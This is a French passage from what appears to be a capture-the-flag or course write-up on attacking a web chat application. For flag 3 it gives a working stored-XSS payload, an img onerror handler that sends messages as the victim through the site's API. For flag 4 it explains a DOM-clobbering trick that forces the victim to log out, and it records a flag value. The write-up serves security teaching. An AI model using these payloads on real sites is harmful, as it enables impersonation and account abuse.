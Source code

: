 ### Flag 3

**Flag**: N/A

**Exploit**

Le flag 3 est envoyé par Trump quand Elon lui envoie un message donné dans l'énoncé. On fait donc, similairement au flag 2, faire un appel à l'API d'envoi de message, pour envoyer un message à Trump avec le contenu demandé.

```html
<img
  src="x"
  onerror="
  let t = Array(...document.querySelectorAll('.conversation')).map(c => {
    let name = c.querySelector('.name').innerHTML
    if (name.includes('Donald')) {
      let url = c.onclick
      url = url.toString()
      url = url.match(/openChat\(\'(.*)\'\)/)[1]
      console.log(url)

      fetch('/conversation/'+url, {
        method: 'POST',
        body: new URLSearchParams({ message: 'gimme the rest of the codes pls' })
      })
    }
  })
"
/>
```

Le dernier flag se trouvera maintenant dans la conversation entre Elon et Trump ; on peut donc réutiliser le code du flag 2 pour l'obtenir.

## Partie 2

Compte utilisé: `loic.herman1`

### Flag 4

**Flag**: flag4:bf61e7b57fa30fe0

**Exploit**

Deux choses sont à remarquer :

- La fonctionnalité qui log-out après 10 minutes a été implémentée dans une balise `<script>`, et contient une erreur, mais le developpeur ne s'en est pas rendu compte car elle a été catch par le try-catch. En effet, `nextTimeout` est une variable globale qui n'est pas définie initialement.
- Dans la liste des conversations, le display name de l'utilisateur est utilisé comme attribut `id` de la balise `<span>` affichant le nom de l'utilisateur.

On a donc une vulnérabilité de variable injection : en changeant son nom d'utilisateur à `nextTimeout`, on injecte l'existence de la variable globale `nextTimeout` chez Elon, qui aura pour effet de le faire se déconnecter immédiatement (car `nextTimeout` est utilisé dans le calcul de `secondsLeft`, et que s'il n'est pas un nombre, `secondsLeft` sera `NaN` et donc inférieur à 0).

